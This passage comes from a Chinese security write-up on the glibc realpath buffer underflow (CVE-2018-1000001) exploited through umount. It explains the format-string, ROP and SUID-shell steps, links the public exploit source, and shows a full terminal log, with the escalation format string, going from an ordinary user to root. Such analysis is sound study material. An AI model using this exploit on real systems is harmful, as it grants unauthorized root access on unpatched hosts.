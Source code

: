 因为所布置的环境变量是错误的（正确的应为 "LANGUAGE=X.X"），程序会打印出错误信息，此时第一阶段的 message catalogue 文件被加载，里面的格式化字符串将内存 dump 到 stderr，然后正如上面所讲的设置 `restricted` 字段，并将一个 `L` 写到喷射栈中，将其中一个环境变量修改为正确的 "LANGUAGE=X.X"。

由于语言发生了改变，umount 将尝试加载另一种语言的 catalogue。此时 umount 会有一个阻塞时间用于创建一个新的 message catalogue，漏洞利用得以同步进行，然后 umount 继续执行。

更新后的格式化字符串现在包含了当前程序的所有偏移。但是堆栈中却没有合适的指针用于写入，同时因为 fprintf 必须调用相同的格式化字符串，且每次调用需要覆盖不同的内存地址，这里采用一种简化的虚拟机的做法，将每次 fprintf 的调用作为时钟，路径名的长度作为指令指针。格式化字符串重复处理的过程将返回地址从主函数转移到了 `getdate()` 和 `execl()` 两个函数中，然后利用这两个函数做 ROP。

被调用的程序文件中包含一个 shebang（即"#!"），使系统调用了漏洞利用程序作为它的解释器。然后该漏洞利用程序修改了它的所有者和权限，使其变成一个 SUID 程序。当 umount 最初的调用者发现文件的权限发生了变化，它会做一定的清理并调用 SUID 二进制文件的辅助功能，即一个 SUID shell，完成提权。


Bingo!!!（需要注意的是其所支持的系统被硬编码进了利用代码中，可看情况进行修改。[exp](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c)）
```
$ gcc -g exp.c 
$ id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls -l a.out 
-rwxrwxr-x 1 ubuntu ubuntu 44152 Feb  1 03:28 a.out
$ ./a.out 
./a.out: setting up environment ...
Detected OS version: "16.04.3 LTS (Xenial Xerus)"
./a.out: using umount at "/bin/umount".
No pid supplied via command line, trying to create a namespace
CAVEAT: /proc/sys/kernel/unprivileged_userns_clone must be 1 on systems with USERNS protection.
Namespaced filesystem created with pid 7429
Attempting to gain root, try 1 of 10 ...
Starting subprocess
Stack content received, calculating next phase
Found source address location 0x7ffc3f7bb168 pointing to target address 0x7ffc3f7bb238 with value 0x7ffc3f7bd23f, libc offset is 0x7ffc3f7bb158
Changing return address from 0x7f24986c4830 to 0x7f2498763e00, 0x7f2498770a20
Using escalation string %69$hn%73$hn%1$2592.2592s%70$hn%1$13280.13280s%66$hn%1$16676.16676s%68$hn%72$hn%1$6482.6482s%67$hn%1$1.1s%71$hn%1$26505.26505s%1$45382.45382s%1$s%1$s%65$hn%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%39$hn-%35$lx-%39$lx-%64$lx-%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%70$lx-%71$lx-%78$s
Executable now root-owned
Cleanup completed, re-invoking binary
/proc/self/exe: invoked as SUID, invoking shell ...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(ubuntu)
# ls -l a.out 
-rwsr-xr-x 1 root root 44152 Feb  1 03:28 a.out
```


## 参考资料
- [LibcRealpathBufferUnderflow](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/)
- https://github.com/5H311-1NJ3C706/local-root-exploits/tree/master/linux/CVE-2018-1000001
- `man 3 getcwd`，`man 3 realpath`，`man mount_namespaces`
- [util-linux/sys-utils/umount.c](https://github.com/karelzak/util-linux/blob/master/sys-utils/umount.c)

